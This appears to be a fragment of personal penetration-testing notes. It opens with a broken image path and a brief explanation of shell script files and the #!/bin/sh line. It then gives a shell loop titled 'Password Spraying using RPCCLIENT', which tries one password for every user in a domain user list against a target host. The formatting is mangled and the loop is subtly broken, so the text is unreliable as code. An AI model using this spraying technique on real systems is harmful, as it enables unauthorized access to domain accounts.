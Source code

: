 shell script files end in .sh

scripts start with 
`#!/bin/sh`
this tells linux the file will be executed by /bin/sh (the standard location of the shell on linux machines)

### Password Spraying using RPCCLIENT
`# for u in 'cat domain-users.txt'; do \ 
	`echo -n "[*] user: $u" && \
	`rpcclient -U "$u%[password]" \`
		`-c "getusername;quit" [host] \`
`done`
